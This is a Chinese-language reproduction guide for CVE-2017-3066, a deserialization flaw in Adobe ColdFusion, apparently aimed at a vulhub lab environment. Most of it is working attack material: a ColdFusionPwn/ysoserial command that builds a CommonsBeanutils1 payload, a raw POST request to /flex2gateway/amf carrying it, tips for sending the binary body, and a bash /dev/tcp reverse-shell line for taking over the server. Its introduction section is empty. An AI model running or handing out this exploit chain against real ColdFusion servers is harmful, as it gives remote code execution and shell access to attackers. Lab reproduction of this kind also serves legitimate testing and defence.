



# （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Adobe ColdFusion/CVE-2017-3066.html](http://book.iwonder.run/0day/Adobe ColdFusion/CVE-2017-3066.html)

## 一、漏洞简介

## 二、漏洞影响

Adobe ColdFusion (2016 release) Update 3 及之前的版本，

ColdFusion 11 Update 11 及之前的版本，

ColdFusion 10 Update 22 及之前的版本。

## 三、复现过程

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn)工具来生成 POC。 [点击下载 ColdFusionPwn](../../download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip)

> ## Usage
> 
> ```
> java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile] 
> ```

[点击下载 ysoserial](../../download/ysoserial.zip) 【注意】下载的 jar 包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser 
```

生成 poc.ser 文件后，将 POC 作为数据包 body 发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type 为`application/x-amf`

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...] 
```



### 关于发送的内容编码问题

由于编码问题，如果直接从 Notepad++/Notepad 里面复制粘贴为 body 部分，是不成功的，即使返回的状态码是 200

#### 正确发送方式为：

右击选择**Paste From File**，上传**poc.cer**文件


再到`Raw`界面添加 HTTP 头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存



进入容器中，发现`/tmp/success`已成功创建：


将 POC 改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到 shell：



补充一下反弹 shell 的命令,可以通过[http://www.jackson-t.ca/runtime-exec-payloads.html 在线转换](http://www.jackson-t.ca/runtime-exec-payloads.html 在线转换)

```
bash -i >& /dev/tcp/ip/port 0>&1 
```

## 参考链接

> [https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/](https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/)

